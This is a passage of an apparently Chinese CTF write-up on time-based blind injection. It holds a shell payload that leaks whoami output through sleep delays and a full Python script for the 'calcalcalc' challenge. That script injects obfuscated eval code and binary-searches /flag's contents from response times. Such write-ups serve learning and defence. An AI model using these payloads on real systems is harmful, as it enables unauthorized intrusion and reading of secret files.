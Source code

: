 类似sql注入的时间盲注，利用响应时间来判断，我们就可以达到匹配字符的目的，利用后端来帮我们猜解答案

因此 payload:

```
?cmd = if [$(whoami|base32|cut –c 1)=O];then sleep 10;fi
```

## calcalcalc

写完了没点保存，看payload理解吧

```
import requests
from time import time

url = 'http://6816f9f6-a412-4c2b-bf5b-85130b7d25e4.node4.buuoj.cn:81/calculate'


def encode(payload):
    return 'eval(%s)' % ('+'.join('chr(%d)' % ord(c) for c in payload))


def query(bool_expr):
    payload = "__import__('time').sleep(5) if %s else 1" % bool_expr
    t = time()
    r = requests.post(url, json={'isVip': True, 'expression': encode(payload)})
    # print(r.text)
    delta = time() - t
    print(payload, delta)
    return delta > 5

def binary_search(geq_expression, l, r):
    eq_expression = geq_expression.replace('>=', '==')
    while True:
        if (r - l) < 4:
            for mid in range(l, r + 1):
                if query(eq_expression.format(num=mid)):
                    return mid
            else:
                print('NOT FOUND')
                return
        mid = (l + r) // 2
        if query(geq_expression.format(num=mid)):
            l = mid
        else:
            r = mid

# flag_len = binary_search("len(open('/flag').read())>={num}", 0, 100)
flag_len = 50
print('flag length: %d' % flag_len)

flag = ''
while len(flag) < flag_len:
    c = binary_search("ord(open('/flag').read()[%d])>={num}" % len(flag), 0, 128)
    if c:   # the bs may fail due to network issues
        flag += chr(c)
    print(flag)
```

这个是预期解

https://www.xctf.org.cn/library/details/6cf4733304d816ebb21ff2e4c810ee90ccb7f97f/